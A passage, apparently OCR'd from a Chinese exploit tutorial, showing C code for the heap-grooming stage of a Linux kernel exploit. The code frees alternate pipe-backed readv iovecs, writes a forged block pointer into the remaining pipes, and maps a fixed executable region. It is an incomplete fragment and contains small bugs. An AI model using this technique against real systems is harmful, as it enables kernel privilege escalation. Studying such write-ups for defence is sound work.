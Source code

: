 ```
}
 
static void releaehalfpipes() //每间隔一个对象释放一个，采用的方式是调用write，使该线程在readv等待的函数退出，并释放iov
{
    for (int i = 0; i < THREAD_COUNT; i++)
    {
        int fd = pipe_writes[i];
        if (fd > 0 && i%2 == 0)
        {
            if(write(fd, wbuf, sizeof(wbuf)) != sizeof(wbuf))
                        perror("write()"); 
        }
    }
}
 
static void writehalfpipes()
{
    unsigned long fake_d_block = get_fack_block(0x40000000);
        for (int i = 0; i < THREAD_COUNT; i++)
        {
                int fd = pipe_writes[i];
                if (fd > 0 && i%2 == 1)
                {
                        if(write(fd, &fake_d_block, sizeof(unsigned long)) != sizeof(wbuf))
                                perror("write()");
                }
        }
}
 
static int initmappings()
{
    memset(iovs, 0, sizeof(iovs));
 
    if(mmap(MMAP_ADDR, MMAP_SIZE, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_SHARED | MAP_FIXED | MAP_ANONYMOUS, -1, 0) == (void*)-1)
    {
        perror("mmap()");
        return -1;
    }
 
 
    iovs[0].iov_base = MMAP_ADDR;
    //we need more than one pipe buf so make a total of 2 pipe bufs (8192 bytes)
    iovs[0].iov_len = 8;
 
    return 0;
}

```

对应上面讲的 1、2 步。
